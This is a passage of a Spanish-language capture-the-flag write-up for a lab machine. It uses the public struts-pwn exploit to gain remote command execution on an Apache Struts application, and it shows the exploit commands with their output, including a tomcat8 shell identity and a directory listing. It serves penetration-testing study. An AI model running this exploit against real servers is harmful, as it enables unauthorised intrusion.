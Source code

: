 Si buscamos `exploit strtus github` en Google encontramos el siguiente repositorio que vamos a utilizar para poder explotar dicha vulnerabilidad: [REPOSITORIO](https://github.com/mazen160/struts-pwn)

- Uso del exploit

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'id'
```

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'id'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
```

Como podemos ver tenemos ejecución remota de comandos, por lo que el siguiente paso seria  entablarnos una `reverse-shell` en nuestro sistema para poder trabajar de forma mas cómoda, pero ya os adelanto que no se puede por lo que nos toca un poco de enumeración del sistema ejecutando comandos con el script anterior.

-----------------------

# OTENCION DE TTY A TRAVES DE CREDENCIALES SSH

- Reconocimiento básico del sistema

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'ls -la'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: ls -la
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

total 24
drwxr-xr-x  5 root    root    4096 Sep 23 15:11 .
drwxr-xr-x 46 root    root    4096 Dec  3  2023 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Sep 23 15:11 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

[%] Done.
```
